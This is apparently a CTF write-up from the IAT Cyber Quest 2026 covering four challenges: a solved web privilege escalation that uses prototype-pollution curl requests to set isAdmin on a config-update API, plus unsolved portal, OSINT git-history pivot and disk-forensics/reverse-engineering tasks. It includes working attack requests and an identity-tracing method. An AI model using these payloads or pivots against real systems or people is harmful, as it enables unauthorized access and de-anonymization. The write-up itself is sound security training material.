





```mermaid
flowchart LR
    A[Public web application] --> B[Flag endpoint]
    B --> C[Authorization denied]
    C --> D[Inspect configuration API]
    D --> E[Configuration update endpoint]
    E --> F[Path handling tests]
    F --> G[Security relevant mutation]
    G --> H[isAdmin becomes true]
    H --> I[Recheck flag endpoint]
    I --> J[Flag returned]
    J --> K[CTF portal verification]
```

# IATCQ26 CTF Writeups

A technical write-up of the IAT Cyber Quest 2026 challenges
investigated during the engagement.

## Disclaimer

All testing described here was performed against authorized CTF
challenge infrastructure or organizer-provided challenge artifacts.

This write-up does not publish credentials, session tokens, unnecessary
personal identifiers, or unrelated sensitive information.

------------------------------------------------------------------------

# 1. Spectral Override

**Category:** Web\
**Target:** `http://65[.]1[.]162[.]7/`\
**Alternate:** `http://13[.]233[.]157[.]204/`\
**Flag format:** `IATCQ{...}`\
**Status:** **Solved**

## Challenge statement

> "The adversary has locked down their internal config API. However they
> are relying on outdated utils. Pollute the origin and the lies will be
> inherited."

## Approach



## Reconnaissance

The initial requests were:

``` bash
curl -i http://TARGET/
curl -s http://TARGET/ -o /tmp/spectral.html
curl -i -b /tmp/spectral.cookies http://TARGET/dashboard.html
curl -i -b /tmp/spectral.cookies http://TARGET/api/flag
```

For this public version, `TARGET` replaces the live address.

Baseline:

``` text
GET /         -> 200 OK
GET /api/flag -> 403 Forbidden
```

The application exposed a configuration update API and a protected flag
endpoint.

## Configuration update testing

A harmless property was tested first:

``` bash
curl -i -b /tmp/spectral.cookies \
  -H 'Content-Type: application/json' \
  -X POST http://TARGET/api/update \
  --data '{"path":"runtime.test","value":"HELIX"}'
```

The update was accepted, proving that attacker-controlled input reached
server-side configuration handling.

## Prototype-pollution probes

The obvious spellings were tested:

``` bash
curl -i -b /tmp/spectral.cookies \
  -H 'Content-Type: application/json' \
  -X POST http://TARGET/api/update \
  --data '{"path":"__proto__.isAdmin","value":true}'
```

``` bash
curl -i -b /tmp/spectral.cookies \
  -H 'Content-Type: application/json' \
  -X POST http://TARGET/api/update \
  --data '{"path":"constructor.prototype.isAdmin","value":true}'
```

These were blocked by the filtering layer.

Alternative path syntax was also accepted:

``` bash
curl -s -b /tmp/spectral.cookies \
  -H 'Content-Type: application/json' \
  -X POST http://TARGET/api/update \
  --data '{"path":"runtime.probe[0]","value":"ONE"}'

curl -s -b /tmp/spectral.cookies \
  -H 'Content-Type: application/json' \
  -X POST http://TARGET/api/update \
  --data '{"path":"runtime[\"probe\"]","value":"TWO"}'
```

## Successful mutation

The security-relevant property was directly modified:

``` bash
curl -i -b /tmp/spectral.cookies \
  -H 'Content-Type: application/json' \
  -X POST http://TARGET/api/update \
  --data '{"path":"isAdmin","value":true}'
```

The server reported a successful configuration merge.

The flag endpoint was then queried again:

``` bash
curl -i -b /tmp/spectral.cookies http://TARGET/api/flag
```

Result:

``` text
IATCQ{LF6BWCR2VNU0RIFD7CMM5VQBCO}
```

The CTF portal independently marked the submission **Correct**.

### Final flag

``` text
IATCQ{LF6BWCR2VNU0RIFD7CMM5VQBCO}
```




### Confirmed chain

``` text
Configuration update
        |
        v
isAdmin = true
        |
        v
Authorization state changed
        |
        v
/api/flag returned the flag
        |
        v
CTF portal verified the result
```

------------------------------------------------------------------------

# 2. Asterion Group -- Employee Gateway

**Category:** Web\
**Difficulty:** Medium\
**Target:** `http://13[.]201[.]205[.]33/`\
**Alternate:** `http://13[.]204[.]143[.]114/`\
**Flag format:** `flag{HHMMTZ}`\
**Status:** **Unsolved at event close**

## Challenge statement

> "Asterion Group detected unauthorized activity against an internal
> archive during an after-hours window. The connection was stopped, but
> a damaged audit record left investigators without the exact time of
> the intrusion. The affected service is linked to the employee portal
> and an unresolved personnel case. Begin with the public portal, follow
> the evidence, and establish the precise attack time. Preserve
> downloaded evidence in its original form."

## Intended investigation



## Reconnaissance

``` bash
curl -i http://TARGET/
```

The portal exposed:

``` text
EMPLOYEE SIGN IN
IDENTITY AVAILABLE
DIRECTORY AVAILABLE
ARCHIVE MONITORED
```

A public event/date was visible as well. It was treated as contextual
information, **not** as the intrusion time.

## Evidence preservation

``` bash
curl -sS -D /tmp/asterion-index.headers \
  http://TARGET/ \
  -o /tmp/asterion-index.html
```

## Authentication boundary

``` bash
curl -i -b /tmp/asterion.cookies http://TARGET/dashboard.php
curl -i -b /tmp/asterion.cookies http://TARGET/profile.php
```

Observed:

``` text
dashboard.php -> 302 -> login.php
profile.php   -> 302 -> login.php
```

Both routes were therefore confirmed as protected.

## CAPTCHA behavior

A login attempt using invalid credentials but a valid/current CAPTCHA
reached credential validation:

``` text
Valid CAPTCHA
      |
      v
Credential validation
      |
      v
Credentials rejected
```

This established that the CAPTCHA was server validated and was not
itself the immediate bypass.

## Route probing

Examples:

``` bash
curl -i -b /tmp/asterion.cookies http://TARGET/people/4
curl -i -b /tmp/asterion.cookies http://TARGET/people/4/
```

These behaved as public fallback pages rather than a proven employee
record.

Other guessed PHP routes returned `404`.

## Evidence classification

### Proven

``` text
Public portal
    |
    v
Employee login
    |
    v
Server-validated CAPTCHA
    |
    v
Credential validation
    |
    v
Protected dashboard/profile routes
```

### Strongly indicated

``` text
Authenticated workspace
    |
    v
Directory
    |
    v
Flagged employee
    |
    v
Profile
    |
    v
Evidence
    |
    v
Personnel case
```

### Not proven

``` text
Public event date = intrusion date
A particular employee = affected employee
A guessed route = employee record
Any candidate flag = final flag
Any guessed HHMMTZ = attack time
```

### Final status at event close

The investigation established the intended evidence path through the
public portal, employee gateway, directory, profile, evidence, and
personnel-case workflow, but the exact attack timestamp was not verified
before the event ended.

No final flag was verified before the event ended.

------------------------------------------------------------------------

# 3. Burned Trail

**Category:** OSINT\
**Difficulty:** Easy\
**Points:** 925\
**Initial clue:** `dev-hex09`\
**Status:** **Unsolved at event close**

## Challenge statement

> "A deleted repository isn't truly gone, if the history till echoes.
> Find the ghost, trace it to the real world, and listen for the
> address. The ghost was last seen as dev-hex09!"

## Approach



## GitHub discovery

``` bash
curl -4 -sS https://api.github.com/repos/dev-hex09/config-vault
git clone https://github.com/dev-hex09/config-vault

cd config-vault
ls -la
cat readme.md
cat index.html
```

The repository was:

``` text
dev-hex09/config-vault
```

## Keyword triage

``` bash
grep -inE 'flag|ghost|address|access|listen|audio|voice|sound|location|street|city|map|coordinates|latitude|longitude|http|github|repo|dev-|contact|phone|password|secret|vault' index.html
```

This was used to locate possible pivots rather than assuming any
matching string was the answer.

## Git history

``` bash
git log --format=fuller --all
git fsck --full --no-reflogs --unreachable
git log --all --reflog
```

Git metadata exposed a useful username pivot.

The associated email address is intentionally omitted from this public
version because it is unnecessary to reproduce the solve.

## Cross-platform pivot

The username led to a matching social-media presence.

The resulting chain was:

``` text
dev-hex09
    |
    v
GitHub repository
    |
    v
Git metadata
    |
    v
Username pivot
    |
    v
Social profile
    |
    v
GIF pin
    |
    v
Original media
```

## Final status at event close

The original GIF asset was located and retrieved. A browser-side
JavaScript fetch encountered CORS restrictions, but direct asset
retrieval succeeded. The final physical address and flag were not verified
before the event ended.

### Proven

-   The initial clue led to the GitHub repository.
-   Git metadata provided a useful identity pivot.
-   The pivot led to a matching social-media profile.
-   A specific GIF asset was identified and retrieved.

### Not proven

-   Final physical address.
-   Final flag.
-   Whether unrelated search results represented the same identity.
-   Whether the repository's banking-themed HTML was the final clue.

**Unresolved at event close:** the next logical step would have been to
analyze the original GIF frame-by-frame and inspect relevant media channels
for the address clue.

------------------------------------------------------------------------

# 4. Temporal Paradox

**Category:** Crypto / Stego\
**Artifact:** `gateway_snapshot.img`\
**Status:** **Unsolved at event close**

> The exact challenge statement and flag format were not recovered from
> the investigation record, so they are not reconstructed by inference.

## Approach



## Archive and filesystem

``` bash
wget 'ORGANIZER_PROVIDED_ARCHIVE' -O Temporal_Paradox.zip
unzip -l Temporal_Paradox.zip
unzip Temporal_Paradox.zip

file 'Temporal Paradox/gateway_snapshot.img'
sha256sum 'Temporal Paradox/gateway_snapshot.img'
mmls 'Temporal Paradox/gateway_snapshot.img'
fsstat 'Temporal Paradox/gateway_snapshot.img'
```

The image contained an ext4 filesystem directly rather than a separate
partitioned layout.

The volume label was:

``` text
DFR9_CASE
```

## Filesystem enumeration

``` bash
fls -r -p 'Temporal Paradox/gateway_snapshot.img'
fls -r -p -d 'Temporal Paradox/gateway_snapshot.img'
```

Important artifacts included:

``` text
home/operator/triage_cache.txt
home/operator/.gdb_history
var/cache/deltaforge/historian_cache.db
var/log/deltaforge/rollout.log
var/lib/deltaforge/lane_0.cal
var/lib/deltaforge/lane_1.cal
usr/local/sbin/r9sampler
```

The deleted file was:

``` text
var/tmp/encoder_crash.fragment
```

## Deleted-file recovery

``` bash
icat 'Temporal Paradox/gateway_snapshot.img' 32 > encoder_crash.fragment
icat 'Temporal Paradox/gateway_snapshot.img' 27 > rollout.log
icat 'Temporal Paradox/gateway_snapshot.img' 25 > historian_cache.db
icat 'Temporal Paradox/gateway_snapshot.img' 30 > lane_0.cal
icat 'Temporal Paradox/gateway_snapshot.img' 31 > lane_1.cal
icat 'Temporal Paradox/gateway_snapshot.img' 26 > r9sampler
icat 'Temporal Paradox/gateway_snapshot.img' 28 > triage_cache.txt
```

## Crash fragment

``` bash
file encoder_crash.fragment
xxd -g 1 -l 256 encoder_crash.fragment
strings -a -n 4 encoder_crash.fragment
```

Important clues:

``` text
... profile walk begins at +8 ...
... tail compare uses 0x1021 ...
lane[0] cmp_count=4
lane[0] state=(state+sym)&mask
lane[0] frame edge=64
lane[0] source selector observed near profile route table
lane[1] cmp_count=4
lane[1] state^=sym
lane[1] frame edge=64
lane[1] source selector observed near profile route table
... share quorum required before object probe ...
```

This established two lane-state transformations and a shared validation
condition.

## Rollout state

``` bash
cat rollout.log
```

The rollout identified:

``` text
case=TS-1138
lane_count=2
state=mixed
```

Effective profiles:

``` text
lane 0:
  o4
  da
  c8
  cr
  x3
  ml
  lc

lane 1:
  o4
  dx
  c7
  cf
  g8
  ml
  lc
```

The log also stated that the profile loader selected the current,
case-bound, complete, newest generation.

Runtime history showed rejected legacy probes before the effective
profiles were loaded, so the effective profiles were treated as the
relevant state.

## SQLite historian

``` bash
file historian_cache.db
sqlite3 historian_cache.db '.tables'
sqlite3 historian_cache.db '.schema'
```

Tables:

``` text
analyst_queue
runtime_events
samples
system_info
```

Relevant schema:

``` sql
CREATE TABLE system_info(
    key TEXT PRIMARY KEY,
    value TEXT NOT NULL
);

CREATE TABLE samples(
    id INTEGER PRIMARY KEY,
    asset_tag TEXT NOT NULL,
    seq_no INTEGER NOT NULL,
    device_time_ns INTEGER NOT NULL,
    gateway_time_ns INTEGER NOT NULL,
    sensor_value REAL NOT NULL,
    quality INTEGER NOT NULL,
    UNIQUE(asset_tag,seq_no)
);

CREATE INDEX idx_asset_device
ON samples(asset_tag,device_time_ns);

CREATE INDEX idx_asset_gateway
ON samples(asset_tag,gateway_time_ns);

CREATE TABLE runtime_events(
    id INTEGER PRIMARY KEY,
    event_time_ns INTEGER,
    lane INTEGER,
    code TEXT,
    detail TEXT
);

CREATE TABLE analyst_queue(
    id INTEGER PRIMARY KEY,
    source TEXT,
    untrusted_content TEXT
);
```

## System metadata

``` bash
sqlite3 historian_cache.db 'SELECT * FROM system_info;'
```

Relevant values:

``` text
product       DeltaForge R9 experimental
export_case   TS-1138
build_id      6c52b90c2f26da3a6a55
clock_source  PTP with RX fallback
secure_delete OFF
incident_note configuration rollout incomplete; recover effective lane state
```

## Runtime event reconstruction

The events were ordered by event timestamp:

``` bash
sqlite3 historian_cache.db "
SELECT
  id,
  datetime(event_time_ns/1000000000,'unixepoch') AS event_time,
  lane,
  code,
  detail
FROM runtime_events
ORDER BY event_time_ns;
"
```

The sequence showed legacy probes being rejected before effective module
loads.

This was important because the raw rollout log was not strictly
chronological.

## Sample dataset

The historian contained:

``` text
14 assets
5654 samples per asset
79,156 total rows
```

The recorded window was approximately:

``` text
2026-09-02 22:24:00
        to
2026-09-02 23:58:26
```

All observed quality values were:

``` text
192
```

## Timing analysis

Gateway/device timestamp differences were:

``` text
minimum: -3.943444105 seconds
maximum: +13.145464443 seconds
average:  +0.627769131 seconds
```

Two assets were particularly anomalous:

``` text
CR9.FLOW.A4
  minimum approximately -3.943 s
  maximum approximately +7.244 s
  average approximately +1.365 s

CR9.TEMP.A2
  minimum approximately -0.828 s
  maximum approximately +13.145 s
  average approximately +5.816 s
```

The largest observed discrepancy was:

``` text
asset:        CR9.TEMP.A2
sequence:     5653
device time:  2026-09-02 23:58:13
gateway time: 2026-09-02 23:58:26
offset:       +13.145464443 s
quality:      192
```

The timestamp anomalies were treated as a signal to investigate, not as
the answer.

## Local cadence analysis

A local-neighbor classifier was tested against the sensor values.

`FLOW` produced a highly regular alternating pattern:

``` text
0101010101010101...
```

Grouped into bytes:

``` text
55 55 55 55 ...
```

This suggested a synchronization/carrier-like cadence.

`TEMP` produced a non-trivial bitstream beginning approximately:

``` text
011000100100011101110001010100010110110010111001...
```

The resulting bytes did not immediately form readable plaintext.

Therefore:

``` text
FLOW -> synchronization clue
TEMP -> possible encoded signal
```

Neither was treated as verified plaintext.

## Untrusted analyst data

The `analyst_queue` table contained candidate flags and instructions
telling the analyst to stop examining the binary and submit them.

The recovered triage cache contained similar content.

These were rejected because they were explicitly untrusted data,
contradicted independent evidence, and did not pass local validation.

## Calibration files

``` bash
xxd -g 1 lane_0.cal
xxd -g 1 lane_1.cal
```

Lane 0:

``` text
43 39 54 52 00 04 04 06 03 01 03 02 00 04 03 01
00 02 05 01 00 03 02 0a 02 03 00 01 0b 03 02 00
01 0f 03 01 02 00 47 92
```

Lane 1:

``` text
43 39 54 52 01 04 04 06 02 00 01 03 02 04 03 01
02 00 07 02 00 03 01 0a 01 00 02 03 0b 03 00 02
01 0d 02 01 03 00 ad a9
```

Both begin with:

``` text
C9TR
```

Stored CRC values:

``` text
lane 0 -> 0x4792
lane 1 -> 0xADA9
```

The indicated polynomial was:

``` text
0x1021
```

## Calibration structure

Lane 0:

``` text
00 04 04 06
03 01 03 02
00 04 03 01
00 02 05 01
00 03 02 0a
02 03 00 01
0b 03 02 00
01 0f 03 01
```

Lane 1:

``` text
01 04 04 06
02 00 01 03
02 04 03 01
02 00 07 02
00 03 01 0a
01 00 02 03
0b 03 00 02
01 0d 02 01
```

The structure is consistent with a header followed by seven slot/group
records, matching the seven modules in each effective lane.

## R9 sampler

``` bash
chmod +x r9sampler
file r9sampler
strings -a r9sampler
readelf -S r9sampler
```

The sampler was a stripped ELF 64-bit x86-64 PIE binary.

Useful strings included:

``` text
r9 sampler build 6c52b90c2f26da3a6a55
accepted=%u guard=%02x
R9CF
```

Module identifiers included:

``` text
o3 o4 o5 dx da ds c7 c8 cf cr sn g8 x3 mh ml xs lc zl bz xz
```

## Module IDs

    ID Module
  ---- --------
     0 o3
     1 o4
     2 o5
     3 dx
     4 da
     5 ds
     6 c7
     7 c8
     8 cf
     9 cr
    10 sn
    11 g8
    12 x3
    13 mh
    14 ml
    15 xs
    16 lc
    17 zl
    18 bz
    19 xz

## Module storage model

Disassembly of the module-storage helper showed:

``` text
payload base:      0x4060
bytes per module:  12
length table:      0x4040
```

Therefore:

``` text
module 0 -> 0x4060
module 1 -> 0x406c
module 2 -> 0x4078
```

The important correction is:

``` text
0x4078 = beginning of module ID 2 payload = o5
```

It is not a length slot.

The final guard reads the first byte of this `o5` payload.

## Decoder dispatch

The decoder at `0x16b1` uses dispatch tables in `.rodata`.

Explicit call-site analysis recovered module IDs 0 through 19 with these
handler targets:

``` text
ID 0  -> 0x171f
ID 1  -> 0x172e
ID 2  -> 0x173d
ID 3  -> 0x174c
ID 4  -> 0x175b
ID 5  -> 0x176a
ID 6  -> 0x1779
ID 7  -> 0x1788
ID 8  -> 0x1797
ID 9  -> 0x17a6
ID 10 -> 0x17b5
ID 11 -> 0x17c1
ID 12 -> 0x17cd
ID 13 -> 0x17d9
ID 14 -> 0x17e5
ID 15 -> 0x17f1
ID 16 -> 0x17fd
ID 17 -> 0x1809
ID 18 -> 0x1815
ID 19 -> 0x1821
```

## R9CF parser

The main parser searches for:

``` text
R9CF
```

It then validates record bounds and CRC, extracts the module tag and
payload length, and passes the payload to the decoder.



## Direct calibration execution

The calibration files begin with `C9TR`, while the executable searches
for `R9CF`.

``` bash
./r9sampler lane_0.cal
./r9sampler lane_1.cal
```

Both produced:

``` text
accepted=0 guard=43
```

with return code:

``` text
65
```

Interpretation:

``` text
No valid R9CF records were processed.
```

The `guard=43` result is the default/unpopulated state, not a solved
guard.

## Final guard analysis

The final guard path reads the first byte of the `o5` payload and
combines it with values produced by helper functions.

Relevant helper results:

``` text
0x1273 with observed constants -> 0x7f
0x1249 transforms 0x7f -> 0x01f3ef78
0x12ab with observed arguments -> 0
0x12ef with observed arguments -> 3
0x1362 generates 00 00 01 01 00 00 01 01
```

The remaining variable dependency is `o5[0]`.

The observed guard mapping was reduced provisionally to:

``` text
o5[0] = 3 -> guard 0x20
o5[0] = 4 -> guard 0x21
o5[0] = 5 -> guard 0x22
other      -> guard 0x43
```

This is a reverse-engineering constraint, not a final solve.

## Final status at event close

``` text
┌─────────────────────────────────────────┐
│ TEMPORAL PARADOX — STATUS AT EVENT CLOSE│
├─────────────────────────────────────────┤
│ Filesystem recovered             ✓      │
│ Deleted artifact recovered       ✓      │
│ Two effective lanes identified   ✓      │
│ Runtime history reconstructed    ✓      │
│ SQLite historian analyzed        ✓      │
│ Timing anomalies identified      ✓      │
│ Calibration structure analyzed   ✓      │
│ CRC polynomial identified        ✓      │
│ R9 sampler reverse engineered    ✓      │
│ R9CF parser understood           ~      │
│ Valid R9CF payload reconstructed ✗      │
│ o5[0] recovered                  ✗      │
│ Final guard verified             ✗      │
│ Final flag                       ✗      │
└─────────────────────────────────────────┘

The reverse-engineering path was substantially reconstructed, but a valid
R9CF payload, accepted decoder state, final guard, and final flag were not
verified before the event ended.
```

### Unresolved investigation path

The remaining investigation path at event close was:

``` text
Construct valid R9CF record
        |
        v
Pass CRC validation
        |
        v
Drive decoder
        |
        v
Populate module payloads
        |
        v
Recover o5[0]
        |
        v
Verify guard
        |
        v
Verify final flag
```

No final flag was verified for Temporal Paradox before the event ended.

------------------------------------------------------------------------


